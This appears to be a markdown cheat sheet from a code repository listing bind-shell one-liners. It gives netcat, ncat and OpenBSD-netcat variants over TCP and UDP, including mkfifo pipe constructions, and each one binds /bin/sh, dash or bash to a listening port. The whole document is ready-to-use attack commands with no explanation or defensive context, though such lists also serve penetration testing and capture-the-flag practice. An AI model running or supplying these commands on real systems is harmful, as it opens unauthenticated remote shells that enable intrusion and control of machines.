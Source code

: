 # Bind Shell

## 01 - Traditional GNU Variant

### 1.1 - TCP Protocol

```
nc -lp <PORT> -e /bin/sh

nc -lp <PORT> -e /bin/dash

nc -lp <PORT> -e /bin/bash
```

### 1.2 - UDP Protocol

```
nc -lup <PORT> -e /bin/sh

nc -lup <PORT> -e /bin/dash

nc -lup <PORT> -e /bin/bash
```

## 02 - Ncat Variant

### 2.1 - TCP Protocol

```
ncat -lp <PORT> -e /bin/sh

ncat -lp <PORT> -e /bin/dash

ncat -lp <PORT> -e /bin/bash
```

### 2.2 - UDP Protocol

```
ncat -lup <PORT> -e /bin/sh

ncat -lup <PORT> -e /bin/dash

ncat -lup <PORT> -e /bin/bash
```

## 03 - OpenBSD Variant

### 3.1 - TCP Protocol

```
$ mkfifo /tmp/f; (nc -lp <PORT> ||nc -l <PORT>)0</tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f

$ mkfifo /tmp/f; (nc -lp <PORT> ||nc -l <PORT>)0</tmp/f | /bin/dash >/tmp/f 2>&1; rm /tmp/f

$ mkfifo /tmp/f; (nc -lp <PORT> ||nc -l <PORT>)0</tmp/f | /bin/bash >/tmp/f 2>&1; rm /tmp/f
```

### 3.2 - UDP Protocol

```
$ mkfifo /tmp/f; (nc -lup <PORT> ||nc -lu <PORT>)0</tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f

$ mkfifo /tmp/f; (nc -lup <PORT> ||nc -lu <PORT>)0</tmp/f | /bin/dash >/tmp/f 2>&1; rm /tmp/f

$ mkfifo /tmp/f; (nc -lup <PORT> ||nc -lu <PORT>)0</tmp/f | /bin/bash >/tmp/f 2>&1; rm /tmp/f
```